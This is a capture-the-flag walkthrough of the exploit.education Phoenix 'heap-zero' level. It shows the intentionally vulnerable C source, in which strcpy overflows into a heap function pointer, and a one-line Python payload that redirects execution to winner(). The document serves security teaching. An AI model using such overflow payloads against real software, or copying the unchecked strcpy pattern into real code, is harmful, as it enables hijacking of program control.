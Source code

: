 # Heap-Zero

## Code

```
/*
 * phoenix/heap-zero, by https://exploit.education
 *
 * Can you hijack flow control, and execute the winner function?
 *
 * Why do C programmers make good Buddhists?
 * Because they're not object orientated.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

struct data {
  char name[64];
};

struct fp {
  void (*fp)();
  char __pad[64 - sizeof(unsigned long)];
};

void winner() {
  printf("Congratulations, you have passed this level\n");
}

void nowinner() {
  printf(
      "level has not been passed - function pointer has not been "
      "overwritten\n");
}

int main(int argc, char **argv) {
  struct data *d;
  struct fp *f;

  printf("%s\n", BANNER);

  if (argc < 2) {
    printf("Please specify an argument to copy :-)\n");
    exit(1);
  }

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  strcpy(d->name, argv[1]);

  printf("data is at %p, fp is at %p, will be calling %p\n", d, f, f->fp);
  fflush(stdout);

  f->fp();

  return 0;
}
```

## Solution

To resolve we just need to calculate the distance between the two pointer and then change the value of the f pointer to the winner function.

First we need to know the address of winner function:

```
objdump -d heap-zero | grep winner
```

Then we calculate the distance between the two pointer using the output of the program, [0xf7e69050 - 0xf7e69008 = 0x48 = 72] the difference will be 72 in decimal (48 in hex)

```
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0xf7e69008, fp is at 0xf7e69050, will be calling 0x804884e
```

```
./heap-zero $(python -c 'import struct; print("A"*72+struct.pack("I",0x08048835 ))')
```
